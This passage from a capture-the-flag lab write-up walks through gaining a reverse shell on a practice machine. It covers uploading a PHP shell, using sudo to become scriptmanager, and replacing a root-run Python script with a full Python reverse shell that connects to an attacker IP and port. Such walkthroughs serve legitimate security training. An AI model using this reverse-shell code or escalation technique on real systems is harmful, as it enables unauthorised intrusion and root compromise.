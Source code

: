 I did try a few different shells from Pentestmonkey, I first tried a pure bash shell, then a netcat shell however, none of these worked so I tried to find a directory I could write to for example in my case I used `/uploads` and then uploaded a PHP shell there using SimpleHTTPServer & wget. Once we get a reverse shell using our PHP shell we can finally move onto escalation.

## Privilege Escalation

To privilege escalate to root we're first going to escalate to Scriptmanager using `sudo -u scriptmanager bash` as we established earlier, we can run any commands as scriptmanager without a password so we're now the scriptmanager user without needing a password and we've got a shell as the scriptmanager user.

```
www-data@bashed:/$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:/$ 
```

Let's work on root! If we do an `ls` we see an interesting directory `scripts`, if we navigate into this directory and do an `ls -la` we see two files, one is a python script & another is a text file, however the text file is owned by root - this could be our priv-esc path!

```
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Dec  4  2017 .
drwxr-xr-x 23 root          root          4096 Dec  4  2017 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Jun  2 07:37 test.txt
```

Let's first check out what the script is doing by using `cat test.py`

```
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Okay, it looks like it just opens the text file with `write`, writes a string and then closes the file. What we're going to try and do is replace the current Python script with a python reverse shell from pentestmonkey. So we're going to take the below code and paste it into our `test.py`

```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.14",1234))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1) 
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Open a listener on your machine and wait a minute, after a minute you will get a shell as root, from there you can `cat` the root flag and you're done!

